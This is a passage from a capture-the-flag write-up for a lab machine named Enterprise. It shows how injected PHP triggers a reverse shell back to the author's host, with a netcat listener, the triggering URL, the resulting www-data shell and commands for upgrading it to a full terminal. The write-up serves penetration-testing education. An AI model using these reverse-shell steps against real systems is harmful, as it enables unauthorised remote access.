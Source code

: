 ### Shell

I often show how to go webshell to shell, but it's also possible to just
put it in the PHP:

![](/img/image-20210615151513377.png)

Now visiting `enterprise.htb/?p=169&ip=10.10.14.8` triggers a reverse
shell back to my host:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 43104
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@b8319d86d21e:/var/www.md$



The shell is running as www-data, on a hostname `b8319d86d21e`:



    www-data@b8319d86d21e:/var/www.md$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@b8319d86d21e:/var/www.md$ hostname
    b8319d86d21e



There's no Python on this box, but I can get a PTY with `script` and
then do the same background `stty` trick:



    www-data@b8319d86d21e:/var/www.md$ script /dev/null -c bash
    script /dev/null -c bash
    www-data@b8319d86d21e:/var/www.md$ ^Z      
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             